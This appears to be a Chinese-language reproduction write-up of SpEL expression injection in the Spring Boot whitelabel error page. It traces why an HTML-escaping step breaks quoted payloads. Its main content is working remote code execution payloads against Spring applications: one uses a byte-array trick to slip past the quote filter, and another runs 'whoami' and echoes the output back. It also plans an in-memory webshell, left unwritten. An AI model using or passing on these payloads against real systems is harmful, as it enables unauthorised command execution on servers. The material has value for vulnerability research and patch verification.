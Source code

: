 
#### 漏洞复现

payload-算术表达式
```
id=${1011+1011}
```
![image](https://user-images.githubusercontent.com/55024146/158839423-9045a29c-e31d-46e7-83ef-136caab0dc4a.png)

可见表达式被成功解析

payload-计算器
```
id=${T(java.lang.Runtime).getRuntime().exec("calc")}
```
失败，抛出异常如下

![image](https://user-images.githubusercontent.com/55024146/158841307-e68e7c5c-2ee7-4ca0-834d-10de59a227e6.png)


debug、看源码发现，在进行SpEL解析前，有以下处理
```
convertToReference:133, HtmlCharacterEntityReferences (org.springframework.web.util)
htmlEscape:90, HtmlUtils (org.springframework.web.util)
htmlEscape:63, HtmlUtils (org.springframework.web.util)
resolvePlaceholder:218, ErrorMvcAutoConfiguration$SpelPlaceholderResolver (org.springframework.boot.autoconfigure.web)
parseStringValue:147, PropertyPlaceholderHelper (org.springframework.util)
replacePlaceholders:126, PropertyPlaceholderHelper (org.springframework.util)
render:194, ErrorMvcAutoConfiguration$SpelView (org.springframework.boot.autoconfigure.web)
render:1244, DispatcherServlet (org.springframework.web.servlet)
processDispatchResult:1027, DispatcherServlet (org.springframework.web.servlet)
doDispatch:971, DispatcherServlet (org.springframework.web.servlet)
doService:893, DispatcherServlet (org.springframework.web.servlet)
processRequest:970, FrameworkServlet (org.springframework.web.servlet)
doPost:872, FrameworkServlet (org.springframework.web.servlet)
service:648, HttpServlet (javax.servlet.http)
service:846, FrameworkServlet (org.springframework.web.servlet)
service:729, HttpServlet (javax.servlet.http)
...
```

![image](https://user-images.githubusercontent.com/55024146/158843615-71270054-7003-4c7e-8b1d-ad041bdfd0af.png)

对单引号、双引号、尖括号、&进行了HTML实体编码

![image](https://user-images.githubusercontent.com/55024146/158844001-1031b338-e458-4017-b7a4-44d9017600aa.png)

如图，此时传入的payload中双引号已被编码，则不再符合SpEL表达式的语法，自然也就没法成功利用。

![image](https://user-images.githubusercontent.com/55024146/158845997-16e846c5-906f-4c00-9112-92ba85abe6b4.png)

绕过：不出现单双引号
> 利用String类的特性：将byte型数组转为字符串串对象

![image](https://user-images.githubusercontent.com/55024146/158849319-16a3c8ec-6f79-4f85-bca5-15e5b1463258.png)

```
id=${T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{99,97,108,99}))}
```
![image](https://user-images.githubusercontent.com/55024146/158850107-fabff113-b042-4e4b-8efd-eb668cd844f3.png)

测试效果

![image](https://user-images.githubusercontent.com/55024146/158850307-2077f252-0e4f-4972-b158-ce1821db3c1f.png)

#### 漏洞利用

##### 回显
```
(new Scanner(Runtime.getRuntime().exec(cmd).getInputStream())).useDelimiter("\\A").next()
```

```
id=${new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{119,104,111,97,109,105})).getInputStream()))}
```
![image](https://user-images.githubusercontent.com/55024146/158853617-24cd3b1c-3f40-474b-9389-befca11d242c.png)

##### 内存马

> 待完成




